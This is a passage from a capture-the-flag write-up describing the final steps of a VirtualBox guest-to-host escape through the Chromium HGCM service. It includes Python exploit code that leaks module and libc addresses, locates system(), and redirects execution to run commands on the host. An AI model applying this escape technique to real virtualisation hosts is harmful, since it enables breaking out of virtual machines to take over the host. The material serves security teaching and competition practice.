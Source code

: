 Triggering `Free()` is really simple and only requires us to send any valid message to the host using `self.client2`.

#### Finding system()

We already know an address, namely `crVBoxHGCMFree()` . It is the function pointer that is stored in the `Free()` field. This subroutine is within the module `VBoxOGLhostcrutil` which also contains other stubs to libc. Therefore, we can easily calculate the address of `system()`.

```python
self.crVBoxHGCMFree = self.read64(self.pConn + OFFSET_CONN_FREE)
print("[+] crVBoxHGCMFree: 0x%x" % self.crVBoxHGCMFree)

self.VBoxOGLhostcrutil = self.crVBoxHGCMFree - 0x20650
print("[+] VBoxOGLhostcrutil: 0x%x" % self.VBoxOGLhostcrutil)

self.memset = self.read64(self.VBoxOGLhostcrutil + 0x22e070)
print("[+] memset: 0x%x" % self.memset)

self.libc = self.memset - 0x18ef50
print("[+] libc: 0x%x" % self.libc)

self.system = self.libc + 0x4f440
print("[+] system: 0x%x" % self.system)
```

#### Capturing the flag

At this point, we are only one step away from capturing the flag. The flag is stored in a text file at `~/Desktop/flag.txt`. We can see its content by opening the file with any text editor or terminal. During the challenge, you could literally "see" the flag, as a short video was transmitted back to you after submitting the code. *xubuntu* doesn't have *geedit* preinstalled, however a quick google search yield that it should have the text editor *mousepad*.

A little problem that occurred during the first submission is that it crashed the system. I quickly realized that we cannot use a string longer than 16 bytes or so, since some pointer is located at this offset. Overwriting it with invalid content would result in a segmentation fault. Therefore, I did a dirty trick and shortened the file path twice, such that it could be opened with less characters:

```python
p.rip(p.system, "mv Desktop a\0")
p.rip(p.system, "mv a/flag.txt b\0")
p.rip(p.system, "mousepad b\0")
```

![](chromacity.gif)

Hurray, after 4-5h I was able to read the flag and was very excited to be the first to solve that challenge (even though it was remotely). Some hours later, the team *Tea Delivers* also succeeded in exploiting this cool bug, congrats to them.

## Conclusions
